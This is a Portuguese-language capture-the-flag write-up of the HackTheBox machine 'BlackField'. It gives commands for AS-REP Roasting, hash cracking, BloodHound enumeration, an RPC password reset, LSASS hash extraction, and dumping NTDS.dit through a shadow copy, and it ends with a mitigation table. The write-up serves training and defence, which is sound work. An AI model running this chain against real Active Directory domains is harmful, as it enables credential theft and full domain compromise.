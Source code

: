 # Write-up — BlackField (HackTheBox)

**Contexto/Box:** BlackField  
**Dificuldade:** Hard/Difícil  

---

## Enumeração

**Caminhos tentados e descartados:**  
- Scan inicial com `nmap` revelou portas típicas de AD (53, 88, 389, 445, 5985).  
- Tentativa de acesso SMB como convidado funcionou apenas parcialmente, listando `profiles$`.  
- Outras portas como HTTP/HTTPS não estavam disponíveis, descartando vetores baseados em Web.

**Abordagem confirmada:**  
- Enumeração SMB → coleta de nomes de usuários → ataques Kerberos.

Comandos utilizados:
```bash
nmap -p- --min-rate 10000 target_ip -oA scans/nmap-alltcp
nmap -p 53,88,389,445,5985 -sC -sV -T4 target_ip -oN scan.txt
```

---

## Exploração

**Passos objetivos:**  
- Identificamos contas com Kerberos pre-auth desabilitado → AS-REP Roasting.  
- Extraímos hash via `GetNPUsers.py` e quebramos com `john`.  

```bash
GetNPUsers.py -no-pass -dc-IP target_ip DOMAIN/user
john hash.txt --wordlist=rockyou.txt
```
Credenciais obtidas:  
`support : #00^BlackKnight`

**Alternativas consideradas:**  
- Kerberoasting → descartado inicialmente por falta de SPNs expostos.  
- Exploração de SMB via null session → sem sucesso.

---

## Pós-Exploração

**Movimento lateral:**  
- Com BloodHound, identificamos que `support` podia resetar senha de `audit2020`.  
- Alteramos a senha via RPC e acessamos compartilhamentos SMB.

```bash
bloodhound-python -c All -u support -p '#00^BlackKnight' -d domain.local -dc dc01
rpcclient -U support -I target_ip
smbclient //target_ip/forensic -U audit2020%TryH@arder!
```

**Loot e privesc:**  
- Encontramos dump do LSASS → extraímos hashes com `pypykatz`.  
- Conta `svc_backup` tinha privilégio de Backup Operators → criamos shadow copy e extraímos `NTDS.dit`.

```bash
diskshadow /s vss.dsh
secretsdump.py -system SYSTEM -ntds ntds.dit LOCAL
```

Obtemos hash do administrador e domínio totalmente comprometido.

---

## Mitigações

| Vetor                         | Correção Realista                                              |
|------------------------------|---------------------------------------------------------------|
| AS-REP Roasting             | Habilitar Kerberos pre-auth para todos os usuários.          |
| Privilégios excessivos       | Restringir ACLs que permitem reset de senhas via RPC.       |
| Dump LSASS / Backup Ops      | Habilitar LSA Protection e Credential Guard.                |
| Shadow Copy abuse            | Monitorar/Restringir criação de VSS por contas administrativas.|
| Enumeração SMB               | Restringir acesso anônimo e reforçar políticas de compartilhamento.|
| Auditoria                    | Habilitar Sysmon, logs PowerShell e alertas de criação de cópias de sombra.|

---

**Resumo:** Cenário envolveu enumeração avançada, AS-REP Roasting, abuso de ACLs e extração offline do NTDS. Medidas preventivas robustas são críticas para mitigar riscos.

---
